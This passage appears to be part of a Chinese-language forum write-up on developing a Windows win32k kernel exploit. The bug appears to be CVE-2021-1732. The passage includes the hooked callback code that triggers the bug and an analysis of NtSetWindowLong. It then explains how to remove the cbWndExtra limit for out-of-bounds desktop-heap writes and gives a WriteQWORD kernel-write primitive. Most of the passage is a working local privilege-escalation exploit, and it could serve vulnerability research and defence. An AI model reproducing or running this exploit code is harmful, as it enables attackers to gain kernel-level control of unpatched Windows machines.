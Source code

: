 ```
        ULONG_PTR ConsoleCtrlInfo[2] = { 0 };
        ConsoleCtrlInfo[0] = (ULONG_PTR)hWnd2;
        ConsoleCtrlInfo[1] = ChangeOffset;
        NTSTATUS ret = g_fNtUserConsoleControl(6, (ULONG_PTR)&ConsoleCtrlInfo, sizeof(ConsoleCtrlInfo));
 
        ULONG_PTR Result[3] = { 0 };
        Result[0] = g_dwpWndKernel_heap_offset0;
        return g_fFNtCallbackReturn(&Result, sizeof(Result), 0);
    }
    return g_fxxxClientAllocWindowClassExtraBytes(pSize);
}

```

### 6. 细节分析之 Exploit 开发

此时我们已经能复现漏洞 POC，但是距离开发 Exploit 利用还有很长距离，因为我们还不能读写内核内存，也不知道内核内存位置。我们还需要内核地址泄露跟如何读写内核。  
因为要根据 HWND 操作内核，所以我们重点应该分析相应以 HWND 为参数的设置型函数。

#### 1.  分析 win32kfull!NtSetWindowLong 解除限制：![](https://bbs.pediy.com/upload/attach/202103/17853_4KPGN2EQGFRGP25.jpg)

*   第 114 行代码可以看出调用 User32!SetWindowLong 函数时候输入的第二个参数 nIndex 必须小于偏移 0xC8(tagWND->cbWndExtra), 不然就返回错误代码 0x585。**
    
*   **第 153 行代码可以看出如果 tagWND->flag 值包含 0x800 属性使用 offset 寻址。**
    
*   **第 154 行代码可以看出是使用 offset 寻址。**
    
*   **第 156 行代码可以看出是使用内存地址。**
    
*   **第 157/158 行代码可以看出是替换设置的新值。**
    

从代码看 tagWND->flag 值包含 0x800 属性情况下只要我们有办法把 tagWND->cbWndExtra 改成一个很大很大值 (0xFFFFFFFF) 就可以使用桌面堆加 nIndex 来写入指定堆地址（把这个值改成最大是为了更安全防止碰到偏移过大）。

**前面 @7 3.2.2 提到 tagWND->8 地址里包含内核 tagWND 地址与桌面堆地址的偏移，漏洞可以一次性控制偏移 0x128 的 tagWND->offset，这样只需要把一个正常窗口的 (tagWND->8, 内核 tagWND 地址与桌面堆地址的偏移) 放到漏洞窗口里，我们对漏洞窗口做 nIndex(tagWND->cbWndExtra 大小内) 操作就能修改正常窗口里的 tagWND->“nIndex”信息，解除 tagWND->cbWndExtra 长度过小限制后，我们用这个解除限制的窗口操作 nIndex 可以对其他窗口桌面堆实现越界写入。**

#### 2. 封装内核写接口：

@6.1 我们已经可以修改指定窗口 tagWND 信息，用内存越界方式写入一个 tagWND->flag 值不包含 0x800 属性窗口把偏移 0x128(g_dwModifyOffset_offset) 改成想要写入的地址，然后用 nIndex==0 操作这个 tagWND->flag 值不包含 0x800 属性窗口就能实现内核写入。  
我们可以对 tagWND 进行修改后可以使用很多 API 进行读写，不局限于 SetWindowLongPtr。

```
LONG_PTR WriteQWORD(LONG_PTR pAddress, LONG_PTR value)
{
    LONG_PTR old = SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pAddress);
    SetWindowLongPtr(g_hWnd[1], 0, (LONG_PTR)value);  //Modify offset to memory address
    return old;
}

```
